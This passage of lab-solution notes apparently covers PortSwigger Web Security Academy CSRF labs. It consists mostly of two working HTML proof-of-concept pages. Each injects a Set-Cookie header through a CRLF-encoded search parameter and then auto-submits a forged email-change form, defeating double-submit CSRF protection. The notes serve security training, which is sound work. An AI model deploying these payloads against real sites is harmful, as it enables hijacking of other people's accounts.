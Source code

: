 Search response

```http
HTTP/1.0 200 Connection established
Set-Cookie: LastSearchTerm=1; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 3932
```

CSRF POC

```html
<html>
  <body>
  <img src="https://0ae800dc048f3b78c02333fc00910079.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=AjMtogcKRJFLw4zpcuWdy9WqIUQ38K3I" onerror="document.forms[0].submit()">
    <form action="https://0ae800dc048f3b78c02333fc00910079.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="3&#64;carlos1&#45;montoya&#46;net" />
      <input type="hidden" name="csrf" value="U4sIJJ6Q7senYp9E7iOfttJjZDIUSypd" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### CSRF where token is duplicated in cookie

> This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.
>
> To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
>
> You can log in to your own account using the following credentials: wiener:peter 

CSRF POC

```html
<html>
  <body>
  <img src="https://0a8500bc038fea89c13a442a00b300a8.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=p76C4Ga5mtCdY7f9P6EzpJCkKM4YYWc6" onerror="document.forms[0].submit()">
    <form action="https://0a8500bc038fea89c13a442a00b300a8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="2&#64;normal&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="p76C4Ga5mtCdY7f9P6EzpJCkKM4YYWc6" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
